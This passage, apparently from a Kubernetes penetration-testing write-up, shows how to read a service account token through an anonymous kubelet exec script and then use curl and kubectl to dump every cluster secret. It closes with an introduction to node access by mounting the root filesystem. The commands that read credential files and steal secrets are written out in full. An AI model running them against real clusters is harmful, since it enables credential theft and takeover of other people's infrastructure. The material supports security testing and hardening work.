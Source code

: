 Following the ["Accessing the Cluster"](https://kubernetes.io/docs/tasks/access-application-cluster/access-cluster/#accessing-the-api-from-a-pod) link shows that tokens are mounted at the following path:

```
/var/run/secrets/kubernetes.io/serviceaccount/token
```

The token for the `tiller` Service Account can thus be retrieved by using the `kubelet` API `/exec` endpoint to print it out:

```
$ python3 kubelet-anon-rce.py           \
          --node worker                 \
          --namespace kube-system       \
          --pod tiller-797d1b1234-gb6qt \
          --container tiller            \
          --exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token"

<TOKEN>
```

## kube-apiserver Authentication

The token can be used to authenticate to the `kube-apiserver` API. This service will usually listen on 6443/TCP on master nodes.

Interaction with the API through `curl` is straightforward:

```
$ curl -ks -H "Authorization: Bearer <TOKEN>" \
  https://master:6443/api/v1/namespaces/{namespace}/secrets
```

A more elegant solution is to use `kubectl` directly:

```
$ kubectl --insecure-skip-tls-verify=true  \
          --server="https://master:6443"   \
          --token="<TOKEN>"                \
          get secrets --all-namespaces -o json
```

These sample requests fetch Base64 encoded secrets used in the cluster.

Note that because of differences in HTTP headers that the `kube-apiserver` expects to see, it may be necessary to download a version of `kubectl` that matches the target Kubernetes cluster. The cluster's version can be obtained by hitting the `/version` endpoint. The corresponding binary can then be fetched by modifying the version in the request below:

```
curl -LO https://storage.googleapis.com/kubernetes-release/release/v1.X.X/bin/linux/amd64/kubectl
```

## Access to the Nodes

Access to an underlying node's filesystem can be obtained by mounting the node's root directory into a container deployed in a pod.
